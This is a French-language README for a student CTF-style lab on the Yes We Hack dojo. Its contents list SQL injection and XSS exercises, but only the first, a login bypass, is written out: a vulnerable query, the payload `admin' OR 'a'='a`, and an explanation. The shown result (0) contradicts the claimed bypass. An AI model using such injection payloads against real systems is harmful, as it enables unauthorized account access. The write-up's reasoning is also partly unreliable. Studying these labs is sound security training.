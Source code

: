 # Yes We Hack LAB

Groupe : Jullian BACLE, Clément JELEFF
> <https://dojo-yeswehack.com/>

## SOMMAIRE

- [SQL Injection](#SQL-Injection)
  - [Simple login Bypass](#Simple-login-Bypass)
  - [First exfiltration](#First-exfiltration)
  - [No LIMIT](#No-limit)
  - [Exploration](#Exploration)
  - [Injection in INSERT](#Injection-in-insert)
- [XSS](#XSS)
  - [Simple XSS](#Simple_XSS)
  - [InnerHTML](#InnerHTML)
  - [JS_urls](#JS_urls)
  - [HTML_parser](#HTML_parser)
  - [Prototype_Pollution](#Prototype_Pollution)

## SQL injection

### `Simple login Bypass`

**Consigne :**\
Essayez de trouver un moyen de vous connecter en tant qu'admin.

> **Goal :  is_valid_password = 1**

**Code présent sur la page :**

```sql
SELECT 
  (`password` = '$pass') is_valid_password
FROM users 
WHERE username = 'admin' 
LIMIT 1;
```

**Injection :**

```js
admin' OR 'a'='a
```

**Résultat :**

```javascript
"is_valid_password": 0
```

**Explication de l'injection :**\
l'injection `OR 'a'='a` permet de contourner la vérification du mot de passe, en précisant seulement qu'il est `true`.

---